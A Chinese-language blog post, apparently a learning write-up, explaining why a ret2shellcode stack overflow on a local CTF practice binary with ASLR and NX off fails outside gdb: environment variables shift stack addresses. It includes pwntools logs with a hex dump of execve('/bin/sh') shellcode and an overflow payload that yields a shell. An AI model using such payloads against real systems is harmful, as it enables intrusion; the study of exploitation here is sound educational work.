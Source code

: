 # ASLR保护关闭情况下环境变量对栈地址的影响


## 无法复现的ret2shellcode

今天在尝试复现[一步一步学ROP之linux_x86篇 蒸米](https://www.vuln.cn/6645)时第一个ret2shellcode时遇到了问题

题目本身比较简单，由于关闭了NX保护，栈有了执行权限。也关闭了ASLR保护，关闭了地址随机化。故直接在输入时塞一段shellcode，然后覆盖返回地址，使eip跳转到shellcode开头进行执行，即可getshell。但最大的问题在于如何获取shellcode的起始地址（即栈上的一个地址）。

如果我们直接用gdb去调试可执行程序，得到栈上的地址，覆盖返回地址进行栈溢出攻击，会发现无法成功。原文中作者这样解释道：

> 原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。

为了解决这个问题，作者建议我们开启`core dump`之后再执行./level1，同时输入足够溢出长度的字符串使程序崩溃，然后用gdb载入生成的core dump文件，从而获取到执行过程中的栈上地址。

然而，经过尝试，使用core dump的地址覆盖返回地址进行攻击同样会失败。经过更多的尝试，多次进行core dump得到的地址并不一样，多次进行gdb直接调试得到的栈上地址也不相同，在不同的终端中进行得到的地址也可能不同。

唯一可行的办法是在exp中把gdb attach上去进行调试，得到的地址可以成功完成攻击，得到shell。但是，在不同终端中同样的脚本仍可能会失败。

似乎栈地址仍是随机化的，还有什么因素在影响栈地址吗？

## 环境变量悄悄作祟

最终找到了stack overflow上的一篇[回答](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it)，第一个回答中作者的配图如下：

![Process layout](https://i.stack.imgur.com/N4rzh.png)

原来，操作系统在加载程序时会将`环境变量`和`程序参数`放在栈地址之前。于是，在不同环境变量的环境中栈的起始地址是不一样的（已关闭ASLR情况下），栈上内容的地址自然也不一样。

对此，我们可以做个简单的实验验证一下：

注：以下使用的是`fish shell`，`set -x`和`set -e`分别是fish中设置/取消环境变量的语法

```shell
  ~/CTF/problem/pwn/ROP-zhengmi/ROP_STEP_BY_STEP/linux_x86                                                                                 pwn 16:51:00
❯ python exp1.py    # 第一次执行攻击脚本
[+] Starting local process './level1' argv=[b'./level1'] : pid 116511
[DEBUG] Sent 0x90 bytes:
    00000000  31 c9 f7 e1  51 68 2f 2f  73 68 68 2f  62 69 6e 89  │1···│Qh//│shh/│bin·│
    00000010  e3 b0 0b cd  80 61 61 61  61 61 61 61  61 61 61 61  │····│·aaa│aaaa│aaaa│
    00000020  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000080  61 61 61 61  61 61 61 61  61 61 61 61  b0 d4 ff ff  │aaaa│aaaa│aaaa│····│
    00000090
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:        # 能够正常get shell并执行命令
    b'ls\n'
[DEBUG] Received 0x45 bytes:
    b'exp1.py  level1  level1.c  level2  pattern.py  socat-2.0.0-b8.tar.gz\n'
exp1.py  level1  level1.c  level2  pattern.py  socat-2.0.0-b8.tar.gz
$ 
[*] Stopped process './level1' (pid 116511)
  ~/CTF/problem/pwn/ROP-zhengmi/ROP_STEP_BY_STEP/linux_x86                                                                            5s  pwn 16:51:13
❯ set -x var 123        # 添加一个环境变量 var = 123
  ~/CTF/problem/pwn/ROP-zhengmi/ROP_STEP_BY_STEP/linux_x86                                                                                 pwn 16:51:27
❯ python exp1.py        # 第二次执行攻击脚本（添加环境变量后）
[+] Starting local process './level1' argv=[b'./level1'] : pid 116661
[DEBUG] Sent 0x90 bytes:
    00000000  31 c9 f7 e1  51 68 2f 2f  73 68 68 2f  62 69 6e 89  │1···│Qh//│shh/│bin·│
    00000010  e3 b0 0b cd  80 61 61 61  61 61 61 61  61 61 61 61  │····│·aaa│aaaa│aaaa│
    00000020  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000080  61 61 61 61  61 61 61 61  61 61 61 61  b0 d4 ff ff  │aaaa│aaaa│aaaa│····│
    00000090
[*] Switching to interactive mode
[*] Got EOF while reading in interactive # get shell失败
$ 
[*] Process './level1' stopped with exit code -11 (SIGSEGV) (pid 116661)
  ~/CTF/problem/pwn/ROP-zhengmi/ROP_STEP_BY_STEP/linux_x86                                                                            3s  pwn 16:51:35
❯ set -e var        # 删除设置的环境变量var
  ~/CTF/problem/pwn/ROP-zhengmi/ROP_STEP_BY_STEP/linux_x86                                                                                 pwn 16:51:50
❯ python exp1.py    # 第三次执行攻击脚本
[+] Starting local process './level1' argv=[b'./level1'] : pid 116805
[DEBUG] Sent 0x90 bytes:
    00000000  31 c9 f7 e1  51 68 2f 2f  73 68 68 2f  62 69 6e 89  │1···│Qh//│shh/│bin·│
    00000010  e3 b0 0b cd  80 61 61 61  61 61 61 61  61 61 61 61  │····│·aaa│aaaa│aaaa│
    00000020  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000080  61 61 61 61  61 61 61 61  61 61 61 61  b0 d4 ff ff  │aaaa│aaaa│aaaa│····│
    00000090
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:    # 可正常get shell并执行命令
    b'ls\n'
[DEBUG] Received 0x45 bytes:
    b'exp1.py  level1  level1.c  level2  pattern.py  socat-2.0.0-b8.tar.gz\n'
exp1.py  level1  level1.c  level2  pattern.py  socat-2.0.0-b8.tar.gz
```

可以发现，原本可以攻击成功的脚本在添加一个无关紧要的环境变量之后无法完成攻击。而在删除这个变量之后，脚本又能成功get shell。可见环境变量确实对栈地址有影响。

## 题外话

搞清楚以上问题之后，笔者忽然想起了前段时间做过的`MIT 6.858`的一个[lab](http://css.csail.mit.edu/6.858/2022/labs/lab1.html)，其中给出了一个`clean-env.sh`。当时还没有重视，现在想起来，和这里的原理也是一样的。还是得赞叹一下这个lab设计的严谨。

相比之下，笔者还没有找到给出正确解释中文资料，反倒是有不少将错就错、不求甚解的存在。

